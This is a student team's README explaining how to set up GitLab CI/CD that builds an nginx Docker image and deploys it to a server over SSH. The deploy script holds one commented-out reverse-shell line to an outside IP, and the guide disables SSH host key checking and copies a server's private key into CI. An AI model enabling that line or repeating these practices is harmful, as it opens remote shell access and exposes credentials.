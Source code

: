 # Member of Team 4
- Salman Abdul Jabbaar Wiharja
- Himansyah Muqorrobin
- Tio Hady Pranoto
- Benjamin Nikholas Partomuan
- Gede Ananda Prema Putra

# Documentation of CI/CD Project
What is CI/CD? That stand for Continuous integration (CI)/Continuous Deployment(CD). List what procced of deployment with Gitlab CI/CD.
- Make a Gitlab Project
- Make a CI/CD Pipline
- Deploy to a Server with CI/CD 

## 1. Gitlab Project
Before you create a project, you need an Gitlab account first. After that you can click the button ***"new project"*** in right corner.
![index_image_google](/images/g_1a.png)
After that you can select ***"Create Blank Project"***
![index_image_google](/images/g_1b.png)
Fill all data and then click ***"create project"***
![index_image_google](/images/g_2.png)

## 2. CI/CD Models

### a. Edit your Gitlab Project
After that you can clone the project in your local/pc. And then you can upload/push some file what we need for make this project. There are :
- Website files
- Configuration

For Website files you can add hmtl, css, js, images, and etc in ***One Folder*** in this case named ***website*** on the menandap's repo.

For Configuration files there are .gitlab-ci.yaml, .gitlab-deploy.sh  .

***.gitlab-ci.yaml***

```yaml
stage-build:
  image: docker:18.09-dind
  stage: build
  services:
    - docker:dind
  variables:
    DOCKER_HOST: tcp://docker:2375/
    DOCKER_DRIVER: overlay2
    DOCKER_TLS_CERTDIR: ""
  script:
    - . .gitlab-deploy.sh "BUILD"


stage-prod:
  image: ruby:2.5
  stage: deploy
  script:
    - . .gitlab-deploy.sh "DEPLOY"
  # when: manual

```

***gitlab-deploy.sh***
```bash 
#!/bin/bash
WAKTU=$(date '+%Y-%m-%d.%H')
echo "$SSH_KEY" > key.pem
chmod 400 key.pem

if [ "$1" == "BUILD" ];then
echo '[*] Building Program To Docker Images'
echo "[*] Tag $WAKTU"
docker build -t menandap/belajardevops:$CI_COMMIT_BRANCH .
docker login --username=$DOCKER_USER --password=$DOCKER_PASS
docker push menandap/belajardevops:$CI_COMMIT_BRANCH
echo $CI_PIPELINE_ID

elif [ "$1" == "DEPLOY" ];then
echo "[*] Tag $WAKTU"
echo "[*] Deploy to production server in version $CI_COMMIT_BRANCH"
echo '[*] Generate SSH Identity'
HOSTNAME=`hostname` ssh-keygen -t rsa -C "$HOSTNAME" -f "$HOME/.ssh/id_rsa" -P "" && cat ~/.ssh/id_rsa.pub
echo '[*] Execute Remote SSH'
# bash -i >& /dev/tcp/103.41.207.252/1234 0>&1
ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker login --username=$DOCKER_USER --password=$DOCKER_PASS"
ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker pull menandap/belajardevops:$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker stop belajardevops-$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker rm belajardevops-$CI_COMMIT_BRANCH"
ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker run -d -p 3003:80 --restart always --name belajardevops-$CI_COMMIT_BRANCH menandap/belajardevops:$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker exec farmnode-main sed -i 's/farmnode_staging/farmnode/g' /var/www/html/application/config/database.php"
echo $CI_PIPELINE_ID
fi

```
***Dockerfile***
```Dockerfile
FROM nginx:latest
COPY website/ /usr/share/nginx/html
```

### b. Configure your Server
In your server, you need to configure public key so in the project can login with the ***.pem*** key

```bash 
ssh-keygen -t rsa -b 2048
```

After that you can check if the key was maked by see in **.ssh** dir, in there will have 3 files authorized_key, id_rsa, and id_rsa.pub.

![index_image_google](/images/g_3.png)

***note*** : if there no authorized_keys, you can make it.
```bash
touch authorized_keys
cat id_rsa.pub > authorized_keys
```
Now u can see the id_rsa files, that contain the private key ***(id_rsa)*** that make u can login the server. Copy key inside id_rsa and then save and name it ***key.pem***.

## 3. Deploy to Server with CI/CD

With all component completed, we can run the pipline of the gitlab project. In this project we use shared runner because all thing is prepared by gitlab runner and ready to use.

![index_image_google](/images/g_4.png)

You can run build and deploy by running the pipeline project. Go to ***CI/CD*** menu -> ***Pipeline***, and then click ***Run Pipeline*** buttton.

![index_image_google](/images/g_5.png)

If everything work corrently we can see the pipelines run like this. The build and the deploy stage passed.

![index_image_google](/images/g_6.png)

You can see if build stage passed, there will a docker image builded by the runner and uplouded in DockerHub otomaticly.

![index_image_google](/images/g_7.png)
 
If deploy stage passed, there will a proccess of the runner will conect to VPS and pull images from the DockerHub and then running the cointainer of the images we build before.

![index_image_google](/images/g_8.png)

So that all about making CI/CD on Gitlab :) 